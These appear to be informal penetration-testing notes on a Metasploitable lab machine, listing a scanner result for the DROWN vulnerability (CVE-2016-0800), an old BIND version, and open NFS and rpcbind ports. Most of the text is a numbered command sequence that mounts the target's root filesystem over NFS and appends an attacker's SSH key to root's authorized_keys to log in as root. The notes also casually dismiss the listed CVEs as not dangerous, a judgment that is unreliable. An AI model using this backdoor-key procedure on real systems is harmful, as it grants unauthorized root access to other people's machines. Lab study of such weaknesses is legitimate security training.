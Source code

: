 |       state: VULNERABLE
|       ids: 
|         CVE:CVE-2016-0800
|       description: 
|               The SSLv2 protocol, as used in OpenSSL before 1.0.1s and 1.0.2 before 1.0.2g and
|       other products, requires a server to send a ServerVerify message before establishing
|       that a client possesses certain plaintext RSA data, which makes it easier for remote
|       attackers to decrypt TLS ciphertext data by leveraging a Bleichenbacher RSA padding
|       oracle, aka a "DROWN" attack.
|     
|       refs: 
|         https://www.openssl.org/news/secadv/20160301.txt
|_        https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0800

didnt really see that these cve's are dangerous

################################################################################################
53/tcp   open  domain      ISC BIND 9.4.2

https://charlesreid1.com/wiki/Metasploitable/DNS_Bind

################################################################################################
111/tcp  open  rpcbind     2 (RPC #100000)
2049/tcp open  nfs         2-4 (RPC #100003)

1. showmount -e 192.168.1.117
2. mkdir -p /root/.ssh
3. cd /root/.ssh/
4. cat /dev/null > known_hosts
5. ssh-keygen -t rsa -b 4096
	Enter file in which to save the key (/root/.ssh/id_rsa): xtech
6. cd /
7. mount -t nfs 192.168.1.117:/ /mnt -o nolock
8. df -k
9. cd /mnt/root/.ssh
10. cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/
11. ls -l
12. cat authorized_keys
13. cat hacker_rsa.pub >> authorized_keys
14. cat authorized_keys
15. cd /root/.ssh/
16. ssh -i /root/.ssh/hacker_rsa root@192.168.1.117

and you are INNNNNN
